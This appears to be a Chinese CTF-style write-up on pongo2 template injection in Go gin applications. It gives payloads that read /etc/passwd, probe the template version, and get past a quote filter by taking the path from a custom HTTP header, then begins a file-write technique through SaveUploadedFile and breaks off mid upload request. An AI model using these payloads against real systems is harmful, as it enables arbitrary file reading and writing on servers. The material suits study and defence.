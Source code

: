 * 任意读文件

```go
{{ include "/etc/passwd" }}
```

* 版本探测

```go
{{ pongo2.version }}
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241209201942251.png)

* 绕过字符串过滤

go可以通过函数获取http头信息，进而获取任意字符串

gin http.Request结构体如下：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241209201526884.png)

可以通过gin Context的Request.Header获取头信息（注意：gin会将输入的http头的首字符换成大写字符）

比如这里在这里有html.EscapeString过滤双引号，无法直接读文件，可以构造`aaa: /etc/passwd`的http头，以下payload读文件

```
name={%25%20include%20c.Request.Header.Aaa[0]%20%25}
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241209202455138.png)



* 任意文件写

通过SaveUploadedFile搭配FormFile写文件

SaveUploadedFile参数如下，接收一个`*multipart.FileHeader`对象，一个String作为目标路径。注意到SaveUploadedFile是在gin包的context下，`*multipart.FileHeader`对象必然来自http对象

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241209204112724.png)

查看用例可以发现context_test.go中用的FormFile生成的`*multipart.FileHeader`对象

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241209204513188.png)

跟进到FormFile，调用了ParseMultipartForm从Context解析文件，并调用了request.go 的FormFile

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241209204831159.png)

这是一个调用ParseMultipartForm从Request解析文件

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241209205308652.png)

两个FormFile返回的`*multipart.FileHeader`对象都能直接在SaveUploadedFile中使用

比如会解析以下上传文件的数据包（不是题目的环境，而是一个上传文件的普通环境）

```http
POST /upload HTTP/1.1
Host: localhost
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 193
Content-Type: multipart/form-data; boundary=01f54ee8f2872c8a0d42d14f70cdc1fe

--01f54ee8f2872c8a0d42d14f70cdc1fe
Content-Disposition: form-data; name="file"; filename="test.png"
Content-Type: image/png

```